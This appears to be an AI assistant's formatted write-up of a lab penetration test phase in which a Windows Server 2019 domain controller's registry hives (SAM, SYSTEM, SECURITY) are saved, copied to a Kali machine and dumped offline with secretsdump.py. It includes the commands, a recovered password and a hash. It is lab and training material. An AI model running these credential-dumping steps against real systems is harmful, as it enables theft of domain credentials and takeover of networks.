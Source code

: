 Sure! Here's your complete **Phase 4: Privilege Escalation** report in a single code block for easy copy-paste:


### Phase 4: Privilege Escalation

MITRE ATT&CK Techniques:
- T1003.001 – OS Credential Dumping: LSASS Memory
- T1003.004 – OS Credential Dumping: LSA Secrets
- T1003.005 – OS Credential Dumping: Cached Domain Credentials

Objective:
----------
Elevate privileges from a low-privileged user (`bob`) to Domain Admin or equivalent by extracting credentials or secrets from the system.

Lab Setup:
----------
- Attacker Machine: Kali Linux
- Target Machine: Windows Server 2019 (Domain Controller)
- User Compromised: bob@corp.local
- Privileges Escalated: Domain Admin

Steps and Observations:
------------------------

1. **Verified Privilege Rights of the Compromised User**
   Command:


whoami /priv


Result:


User had several high-level privileges enabled:

* SeDebugPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeTakeOwnershipPrivilege
* SeImpersonatePrivilege



2. **Confirmed Domain Admin Group Membership**
Command:


net user bob /domain


Result:


Global Group memberships:
\*Domain Users
\*Domain Admins



3. **Exported the Windows Registry Hives from Target**
Commands run on the compromised machine:


reg save hklm\sam C:\Users\Public\sam.save
reg save hklm\system C:\Users\Public\system.save
reg save hklm\security C:\Users\Public\security.save



4. **Transferred Registry Files to Attacker Machine**
Method used:
- Hosted an HTTP server using `python3 -m http.server 8000`
- Downloaded files via the browser or authenticated SMB share

5. **Dumped Credentials using secretsdump.py**
Command:


python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL



Output Highlights:
- Extracted plaintext password: `mr404`
- Found cached hash: `aad3b435b51404eeaad3b435b51404ee:e16f9ff726e5145d3b7a379c5363d098`
- Dumped DPAPI system keys
- Retrieved sensitive machine account secrets and LSA secrets

Note:
- SAM hash extraction failed due to minor corruption (`regf` magic mismatch), but LSA and cached credentials were still recovered.

Evidence:
---------
- Screenshots were taken for each command and output.
- `secretsdump` full output was saved in a `.txt` file.
- Registry hive files were successfully exfiltrated and analyzed.
- Provided the "loot" folder with hive files

Conclusion:
-----------
Phase 4 was successfully completed. The user `bob` had Domain Admin privileges, confirmed via enumeration. We exploited this by dumping LSA secrets and cached credentials from the DC registry hives. This allows us to maintain persistence and move laterally within the domain. The attack chain is now ready to proceed to **Phase 5: Credential Access and Lateral Movement**.
```
